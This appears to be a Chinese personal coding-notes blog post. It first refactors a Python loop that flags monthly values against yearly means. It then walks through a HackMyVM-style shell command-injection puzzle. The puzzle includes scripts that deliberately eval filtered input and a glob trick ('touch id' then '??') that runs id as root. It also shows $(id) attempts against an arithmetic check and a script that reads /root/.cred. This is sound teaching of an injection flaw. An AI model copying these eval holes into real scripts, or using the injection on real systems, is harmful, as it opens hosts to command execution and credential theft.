>继续新开一个主题，用于记录在写代码遇到问题，把代码优化的形式，主要太久没写代码了感觉要退化了，主要使用的编程语言是Linux的Shell和Python，PHP，C++
>

>如果你看到我写代码有更好的形式或者优化方案，通过qq联系我（2766326510），需要加备注说明来意，感谢大家！
>

## 月份数据求年平均值与月值扩张与收缩问题

>数据来源为我在写数据论文时发现无2分类数据，根据内容补充加一个同年均值去比较每个月份扩张（1）和收缩问题（0），这里不用-1是因为我不是对比去年的数据如果是对比去年年平均的数据一定要使用-1去判断收缩
>

>我当时的写的代码
>

```
year_2020s = []

year_2021s = []

year_2022s = []

year_2023s = []

year_2024s = []

year_2020 = 0
year_2021 = 0
year_2022 = 0
year_2023 = 0
year_2024 = 0


for i in range(12):
    year_2020 += df['社会融资规模增量'][i]

for i in range(12,24):
    year_2021 += df['社会融资规模增量'][i]

for i in range(24,36):
    year_2022 += df['社会融资规模增量'][i]

for i in range(36,48):
    year_2023 += df['社会融资规模增量'][i]

for i in range(48,60):
    year_2024 += df['社会融资规模增量'][i]


for i in range(12):
    if df['社会融资规模增量'][i] < (year_2020/12):
        year_2020s.append(1)
    else:
        year_2020s.append(0)

for i in range(12,24):
    if df['社会融资规模增量'][i] < (year_2021/12):
        year_2020s.append(1)
    else:
        year_2020s.append(0)

for i in range(24,36):
    if df['社会融资规模增量'][i] < (year_2022/12):
        year_2020s.append(1)
    else:
        year_2020s.append(0)

for i in range(36,48):
    if df['社会融资规模增量'][i] < (year_2023/12):
        year_2020s.append(1)
    else:
        year_2020s.append(0)

for i in range(48,60):
    if df['社会融资规模增量'][i] < (year_2024/12):
        year_2020s.append(1)
    else:
        year_2020s.append(0)

df['同年均值'] = year_2020s + year_2021s + year_2022s + year_2023s + year_2024s
```

>可以看到我突然写的时候我写完我也傻了，又臭又长，明明简单逻辑全靠for循环解决，但是为了应付即使想法，所以先这样编，后面我细细思考之后发现上面的循环可以分成5个12组的形象就是两个for循环去解决，所以对于的数组也要两个并且有一个还得是二维保障5组数据分开填入对于模块,好了不废话了直接上代码
>

```
year_lists = [[] for _ in range(5)]
year_sums = [0] * 5 


for year_index in range(5):
    start_index = year_index * 12
    end_index = start_index + 12
    year_sums[year_index] = df['社会融资规模增量'][start_index:end_index].sum()
    year_mean = year_sums[year_index] / 12
    for i in range(start_index, end_index):
        if df['社会融资规模增量'][i] < year_mean:
            year_lists[year_index].append(1)
        else:
            year_lists[year_index].append(0)

result_list = sum(year_lists, [])

df['同年均值'] = result_list
```

>可以看到优化后的代码简洁了许多，当然我觉得他还不是最简，也不是最好的优化所以如果你有更好的意见记得联系我
>


## Shell命令注入


>这个是来自某大佬提供的题目，这里会有4个版本的shell脚本，感觉蛮有意思的所以接着写代码优化问题顺便整成一个主题
>

>这里先说明一下大佬出题来源的博客地址：https://www.vidarholen.net/contents/blog/?p=716
>

>最初版题
>

```
PATH=/usr/bin

read INPUT < <(head -n1 | tr -d "[A-Za-z0-9/]")
eval "$INPUT"
```

>这里可以看到程序主要说的是吧输入的内容进行去除去除的方式是[A-Za-z0-9/]这些是过滤的，下面是演示阶段
>

```
root@LingMj:~/xxoo/jarjar# bash -x input.sh 
+ PATH=/usr/bin
+ read INPUT
++ head -n1
++ tr -d '[A-Za-z0-9/]'
bash
+ eval ''
```

>这里我用了bash调试的方式能让程序的输入输出更明显
>

```
root@LingMj:~/xxoo/jarjar# bash -x input.sh
+ PATH=/usr/bin
+ read INPUT
++ head -n1
++ tr -d '[A-Za-z0-9/]'
？ ?/.*&%@
+ eval '?.*&%@'
++ %@
++ '?.*'
input.sh: 行 4: ?.*: 未找到命令
input.sh: 第 4 行：fg: 无任务控制
```

>可以看到能进行匹配的字符通过上面可以了解到大体注入到规则，只要我们能让里面的.*?等通配符等于要执行命令即可被调用执行
>

```
root@LingMj:~/xxoo/jarjar# touch id                     
                                                                                                                                                                          
root@LingMj:~/xxoo/jarjar# bash -x input.sh
+ PATH=/usr/bin
+ read INPUT
++ head -n1
++ tr -d '[A-Za-z0-9/]'
??
+ eval '??'
++ id
uid=0(root) gid=0(root) 组=0(root)
```

>可以看到当我们touch id就把id注入进去了,当然是否是某些用户还是root看当前所以这里不演示了
>

>我的改进版，加了字符验证
>

```
#!/bin/bash

PATH=/usr/bin

a=$((RANDOM%100))

echo $a

read -r INPUTS


if [[ "$INPUTS" -ne "$a" ]]; then
    exit 1
fi

read INPUT < <(head -n1 | tr -d "[A-Za-z0-9/]")
eval "$INPUT"
```

>这是我改的当然是出题大佬提供的思路进行一下随机数，当我们验证随机数通过才能进行命令注入，当然我但是做的时候还有一个问题就是如果不知道又要通过验证注入那种形式，不过这样大概率注入到明天都无法，因为不能保证你输入的数等于随机数
>

```
root@LingMj:~/xxoo/jarjar# bash -x input.sh
+ PATH=/usr/bin
+ a=88
+ echo 88
88
+ read -r INPUTS
88
+ [[ 88 -ne 88 ]]
+ read INPUT
++ head -n1
++ tr -d '[A-Za-z0-9/]'
??
+ eval '??'
++ id
uid=0(root) gid=0(root) 组=0(root)
```

>这就是命令注入的过程，现在要演示没有显示随机数的时候
>

```
root@LingMj:~/xxoo/jarjar# ./input.sh                                   
77
                                                                                                                                                                          
root@LingMj:~/xxoo/jarjar# bash -x input.sh
+ PATH=/usr/bin
+ a=94
+ read -r INPUTS
94
+ [[ 94 -ne 94 ]]
+ read INPUT
++ head -n1
++ tr -d '[A-Za-z0-9/]'
??
+ eval '??'
++ id
uid=0(root) gid=0(root) 组=0(root)
```

>当然这只能防住不会调试方法的人
>

>这里来的出题大佬根据这个新形式的出题
>

```
#!/bin/bash

cat << EOF
                                   .     **
                                *           *.
                                              ,*
                                                 *,
                         ,                         ,*
                      .,                              *,
                    /                                    *
                 ,*                                        *,
               /.                                            .*.
             *                                                  **
             ,*                                               ,*
                **                                          *.
                   **                                    **.
                     ,*                                **
                        *,                          ,*
                           *                      **
                             *,                .*
                                *.           **
                                  **      ,*,
                                     ** *,     HackMyVM
EOF


# check this script used by human 
a=$((RANDOM%1000))
echo "Please Input [$a]"

echo "[+] Check this script used by human."
echo "[+] Please Input Correct Number:"
read -p ">>>" input_number

[[ $input_number -ne "$a" ]] && exit 1

sleep 0.2
true_file=$((RANDOM%1000))
sleep 1
false_file=$((RANDOM%1000))

[[ -f "$true_file" ]] && [[ ! -f "$false_file" ]] && cat /root/.cred || exit 2
```

>这里要关注两个部分一个是你输入的部分，一个就是后面输出的部分，这个版本中要是实现下面输出文件是很难的（主要我没成功，但是我不保证完全不行，哈哈哈哈）
>

>之前给的出题例子是有一个部分的
>

  

>这里说明了当我们执行命令使用$(命令)
>

```
root@LingMj:~/xxoo/jarjar# bash -x  tmp
+ cat
                                   .     **
                                *           *.
                                              ,*
                                                 *,
                         ,                         ,*
                      .,                              *,
                    /                                    *
                 ,*                                        *,
               /.                                            .*.
             *                                                  **
             ,*                                               ,*
                **                                          *.
                   **                                    **.
                     ,*                                **
                        *,                          ,*
                           *                      **
                             *,                .*
                                *.           **
                                  **      ,*,
                                     ** *,     HackMyVM
+ a=47
+ echo 'Please Input [47]'
Please Input [47]
+ echo '[+] Check this script used by human.'
[+] Check this script used by human.
+ echo '[+] Please Input Correct Number:'
[+] Please Input Correct Number:
+ read -p '>>>' input_number
>>>47
+ [[ 47 -ne 47 ]]
+ sleep 0.2
+ true_file=839
+ sleep 1
+ false_file=67
+ [[ -f 839 ]]
+ exit 2
                                                                                                                                                                          
root@LingMj:~/xxoo/jarjar# bash -x  tmp
+ cat
                                   .     **
                                *           *.
                                              ,*
                                                 *,
                         ,                         ,*
                      .,                              *,
                    /                                    *
                 ,*                                        *,
               /.                                            .*.
             *                                                  **
             ,*                                               ,*
                **                                          *.
                   **                                    **.
                     ,*                                **
                        *,                          ,*
                           *                      **
                             *,                .*
                                *.           **
                                  **      ,*,
                                     ** *,     HackMyVM
+ a=380
+ echo 'Please Input [380]'
Please Input [380]
+ echo '[+] Check this script used by human.'
[+] Check this script used by human.
+ echo '[+] Please Input Correct Number:'
[+] Please Input Correct Number:
+ read -p '>>>' input_number
>>>$(id)  
+ [[ $(id) -ne 380 ]]
tmp: 行 35: [[: $(id): 语法错误：需要操作数（错误记号是 "$(id)"）
+ sleep 0.2
+ true_file=185
+ sleep 1
+ false_file=500
+ [[ -f 185 ]]
+ exit 2
```

>可以看到我调试使用的时候会调出sleep执行下面程序
>

  
  
  
  

>这里看到我执行多少次都没成功
>

  

>这样就能执行命令成功了，不过我没看原来那个文章所以我试??,..,*和`id` $(id)都没成功要的思路。
>

  


>我根据原来又特地试一下是可以的，不过这个太看运气了
>


>新版的脚本
>

```
#!/bin/bash

cat << EOF
                                   .     **
                                *           *.
                                              ,*
                                                 *,
                         ,                         ,*
                      .,                              *,
                    /                                    *
                 ,*                                        *,
               /.                                            .*.
             *                                                  **
             ,*                                               ,*
                **                                          *.
                   **                                    **.
                     ,*                                **
                        *,                          ,*
                           *                      **
                             *,                .*
                                *.           **
                                  **      ,*,
                                     ** *,     HackMyVM
EOF


# check this script used by human 
a=$((RANDOM%1000))
echo "Please Input [$a]"

echo "[+] Check this script used by human."
echo "[+] Please Input Correct Number:"
read -p ">>>" input_number

[[ $input_number -ne "$a" ]] && exit 1

sleep 0.2
true_file="/tmp/$((RANDOM%1000))"
sleep 1
false_file="/tmp/$((RANDOM%1000))"

[[ -f "$true_file" ]] && [[ ! -f "$false_file" ]] && cat /root/.cred || exit 2
```

>可以观察到这里新版的脚步加上文件的特定位置，能让我们观察到输出，这样只要输出的false文件不存在就读取命令成功
>

  
  

>还是得先创建保证存在文件才行
>

  
  
